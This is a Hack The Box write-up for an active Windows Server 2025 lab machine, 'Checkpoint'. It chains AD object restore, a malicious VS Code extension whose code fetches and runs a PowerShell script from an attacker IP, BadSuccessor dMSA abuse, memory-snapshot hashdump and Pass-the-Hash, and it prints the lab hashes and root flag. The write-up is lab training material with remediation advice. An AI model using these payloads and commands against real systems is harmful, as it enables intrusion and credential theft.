

# Hack The Box — Checkpoint Writeup

> **Active-machine material — private only. Do not publish until Checkpoint has retired.**

## Machine information

| Field | Value |
| --- | --- |
| Machine | Checkpoint |
| Platform | Hack The Box |
| Season | 11 |
| OS | Windows Server 2025 |
| Difficulty | Not specified |
| Category | Active Directory / Kerberos / memory forensics |
| Initial access | Restored Active Directory object and writable deployment share |
| Privilege escalation | BadSuccessor dMSA abuse, memory forensics, and Pass-the-Hash |

## Summary

Checkpoint is a Windows Active Directory machine from Hack The Box Season 11 that focuses on modern Windows Server 2025 attack paths.

The compromise chain combines:

- Active Directory object recovery
- ACL abuse
- VS Code extension weaponization
- Delegated Managed Service Account (dMSA) abuse
- Kerberos ticket manipulation
- VMware memory forensics
- Pass-The-Hash authentication

Unlike many AD machines, the path does **not rely on password cracking**. Each pivot comes from understanding permissions, trust relationships and authentication mechanisms already present in the environment.

## 1. Initial access

Valid credentials were available:

```text
alex.turner:Checkpoint2024!
```

Enumerating SMB shares:

```bash
nxc smb 10.129.X.X \
-u alex.turner \
-p 'Checkpoint2024!' \
--shares
```

Output:

```text
DevDrop      READ
SYSVOL       READ
NETLOGON     READ
VMBackups    NO ACCESS
```

No immediate privilege escalation path was visible through SMB.

## 2. Active Directory enumeration

LDAP enumeration revealed a deleted user object.

The following account was discovered inside the Active Directory Recycle Bin:

```text
mark.davies
```

Because AD Recycle Bin was enabled, the object could be restored.

## 3. Restoring Mark Davies

Restore the deleted account:

```bash
bloodyAD --host dc01.checkpoint.htb \
-d checkpoint.htb \
-u alex.turner \
-p 'Checkpoint2024!' \
set restore '<deleted-object>'
```

After restoration, authentication succeeded using:

```text
mark.davies:Checkpoint2024!
```

## 4. Writable DevDrop share

Enumerating SMB shares again:

```bash
nxc smb 10.129.X.X \
-u mark.davies \
-p 'Checkpoint2024!' \
--shares
```

Output:

```text
DevDrop      READ,WRITE
```

The share description contained an important clue:

```text
VS Code extensions share for approved .vsix packages
```

This indicates that Visual Studio Code extensions are consumed from this location.

## 5. VSIX supply-chain attack

The share stores Visual Studio Code extensions.

The extension manifest was configured to execute automatically:

```json
{
  "activationEvents": ["*"],
  "main": "./extension.js"
}
```

Malicious payload:

```javascript
const cp = require("child_process");

cp.exec(
  'powershell -ep bypass -c "iwr http://10.10.14.X:8000/s.ps1 | iex"'
);
```

Listener:

```bash
nc -lvnp 4444
```

After uploading the malicious VSIX package to DevDrop and waiting for execution:

```text
checkpoint\ryan.brooks
```

A shell was obtained as Ryan Brooks.

## 6. Ryan Brooks enumeration

Ryan was not a local administrator.

However, BloodHound and LDAP enumeration revealed permissions related to:

```text
OU=DMSAHolder
```

The machine runs Windows Server 2025, introducing a newer Active Directory attack surface:

```text
Delegated Managed Service Accounts (dMSA)
```

## 7. Understanding BadSuccessor

Windows Server 2025 introduced Delegated Managed Service Accounts (dMSA).

The purpose of dMSA is to simplify migration from traditional service accounts to managed service accounts.

During migration, a new dMSA may inherit information from a predecessor account.

BadSuccessor abuses this migration process.

If an attacker can create and modify dMSA objects in a vulnerable Organizational Unit, they can:

1. Create a malicious dMSA
2. Declare it as the successor of an existing service account
3. Recover cryptographic material belonging to the predecessor account

No password cracking is required.

## 8. Weaponizing a dMSA

Create a malicious dMSA:

```powershell
SharpSuccessor.exe add `
/impersonate:svc_deploy `
/path:"OU=DMSAHolder,DC=checkpoint,DC=htb" `
/account:ryan.brooks `
/name:ryanx2
```

Successful output:

```text
Created dMSA object
Successfully weaponized dMSA object
msDS-SupersededServiceAccountState set to 2
```

Verify the relationship:

```bash
nxc ldap 10.129.X.X \
-u alex.turner \
-p 'Checkpoint2024!' \
-d checkpoint.htb \
--query "(sAMAccountName=svc_deploy)" \
msDS-SupersededManagedAccountLink
```

Output:

```text
CN=ryanx2,OU=DMSAHolder,DC=checkpoint,DC=htb
```

The dMSA now claims to be the successor of:

```text
svc_deploy
```

## 9. Exporting Ryan's TGT

Export Ryan's Kerberos TGT:

```powershell
Rubeus.exe tgtdeleg /nowrap > ryan_tgt.txt
```

Transfer the ticket to Kali.

Convert it into ccache format:

```bash
impacket-ticketConverter fresh.kirbi fresh.ccache

export KRB5CCNAME=$PWD/fresh.ccache
```

Synchronize time with the domain controller:

```bash
sudo timedatectl set-ntp false
sudo ntpdate -u 10.129.X.X
```

## 10. Extracting previous keys

Request a dMSA ticket:

```bash
impacket-getST \
-k \
-no-pass \
-self \
-dmsa \
-impersonate 'ryanx2$' \
checkpoint.htb/ryan.brooks
```

Output:

```text
Previous keys:

EncryptionTypes.rc4_hmac:
e16081eb077aca74bdbf8af12af43ac9
```

This previous key belongs to:

```text
svc_deploy
```

This is the critical objective of the BadSuccessor attack.

## 11. Accessing VMBackups

Authenticate using Pass-The-Hash:

```bash
smbclient //10.129.X.X/VMBackups \
-U 'checkpoint.htb/svc_deploy%e16081eb077aca74bdbf8af12af43ac9' \
--pw-nt-hash
```

Access granted.

Directory structure:

```text
NightlyBackup_2024-11-01
└── memory forensics
```

Interesting files:

```text
Windows Server 2019-Snapshot1.vmem
Windows Server 2019-Snapshot1.vmsn
```

Download:

```bash
reget "Windows Server 2019-Snapshot1.vmem"
reget "Windows Server 2019-Snapshot1.vmsn"
```

## 12. VMware memory forensics

Identify the operating system:

```bash
vol3 -f "Windows Server 2019-Snapshot1.vmem" windows.info.Info
```

Output:

```text
Windows Server 2019
Build 17763
```

Dump local account hashes:

```bash
vol3 -f "Windows Server 2019-Snapshot1.vmem" windows.hashdump.Hashdump
```

Output:

```text
Administrator
f29e9c014295b9b32139b09a2790be3b
```

## 13. Credential reuse

The local Administrator hash recovered from the VMware snapshot was also valid on the Domain Controller.

This represents a classic credential reuse scenario.

## 14. Pass-the-Hash

Authenticate as Administrator:

```bash
impacket-wmiexec \
-hashes :f29e9c014295b9b32139b09a2790be3b \
administrator@10.129.X.X
```

Successful shell:

```text
C:\>
```

## 15. Root flag

Enumerate users:

```cmd
dir C:\Users
```

Output:

```text
Administrator
max.palmer
ryan.brooks
```

Navigate to:

```cmd
C:\Users\max.palmer\Desktop
```

Read the flag:

```cmd
type root.txt
```

Output:

```text
488e049c7777b08ea40703b427d933bf
```

## Attack chain summary



## Lessons learned

Checkpoint demonstrates that modern Active Directory attacks increasingly depend on:

- ACL analysis
- Understanding Kerberos internals
- Identity relationships
- Delegation mechanisms
- Active Directory object lifecycle
- Memory forensics
- Credential reuse

No passwords needed to be cracked during the compromise chain.

Every pivot was achieved by abusing permissions, trust relationships and authentication mechanisms already present in the environment.

## Remediation

- Apply least privilege to Active Directory ACLs and delegated administration.
- Restrict who can restore deleted directory objects and audit object recovery events.
- Prevent untrusted users from writing to software deployment shares.
- Require signed and approved VS Code extensions in managed environments.
- Monitor dMSA creation, delegation changes, and Kerberos key retrieval.
- Protect virtualization backups and memory snapshots as credential-bearing assets.
- Disable NTLM where possible and monitor Pass-the-Hash behavior.
- Keep domain controllers, management hosts, and backup infrastructure on tightly segmented networks.

## Troubleshooting

### KRB_AP_ERR_TKT_EXPIRED

Cause:

```text
Old TGT exported previously.
```

Fix:

```powershell
Rubeus.exe tgtdeleg
```

Export a fresh ticket.

### KRB_AP_ERR_SKEW

Cause:

```text
Clock mismatch between Kali and Domain Controller.
```

Fix:

```bash
sudo timedatectl set-ntp false
sudo ntpdate -u <DC-IP>
```

### SMB download timeouts

Error:

```text
NT_STATUS_IO_TIMEOUT
NT_STATUS_CONNECTION_DISCONNECTED
```

Cause:

```text
Large VMware snapshot files.
```

Fix:

```bash
reget "Windows Server 2019-Snapshot1.vmem"
```

Resume the download instead of restarting.

### Volatility hashdump missing

Cause:

```text
Missing crypto dependencies.
```

Fix:

```bash
source ~/volatility3/venv/bin/activate

pip install pycryptodome pycryptodomex yara-python
```

## Flags

```text
root.txt: 488e049c7777b08ea40703b427d933bf
```
